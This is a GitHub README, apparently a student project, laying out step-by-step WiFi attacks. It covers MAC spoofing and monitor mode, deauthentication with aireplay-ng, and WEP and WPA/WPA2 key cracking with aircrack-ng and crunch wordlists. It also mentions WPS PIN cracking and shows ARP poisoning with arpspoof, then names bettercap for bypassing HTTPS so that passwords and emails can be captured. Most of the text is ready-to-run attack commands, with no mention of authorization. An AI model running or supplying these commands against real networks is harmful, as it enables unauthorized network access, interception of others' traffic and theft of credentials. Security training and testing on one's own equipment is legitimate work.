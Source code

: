 # Projet-WiFi

Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. 🛰✔️

* ### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

* ### Pre-connection attacks
1. Discover the networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff the packets from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address of the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```

* ### Gaining access

1. WEP cracking (100% successful):
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1:
   <br/> Capture a large number of packets
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2:
   <br/> Run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking:
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: 
           <br/> Run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           <br/> Catch the handshake using "airodump-ng".
           <br/> The handshake doesn't contain data that helps recover the key, but it contains data that can be used to check if a key is valid or not !
           <br/> Useful information in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2: 
           <br/> Create a wordlist/dictionnary: "crunch" command
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           <br/> Combining the useful information to the wordlist will create new MICs, which will be compared to the real MIC
           <br/> if(new_MIC == MIC), then the word generating this MIC is the router's password !
           
   ```
   aircrack-ng file_.cap_containing_handshake -w word_list
   ```
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method: 
            <br/> Exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
            <br/> The WPS feature allows clients to connect without a password.
            <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

* ### Post-connection attacks

1. ARP poisoning with arpspoof:
   <br/> Spoofing the target and telling him we are the router:
   ```
   arpspoof -i wlan0 -t target_ip_addr ip_addr_gateway
   ```   
   <br/> Spoofing the router and telling him we are the target:
   ```
   arpspoof -i wlan0 -t ip_addr_gateway target_ip_addr 
   ```

2. Bypass https using bettercap:
   <br/> The captured packets are easily analysed using Wireshark to gather passwords, emails, usernames, etc.

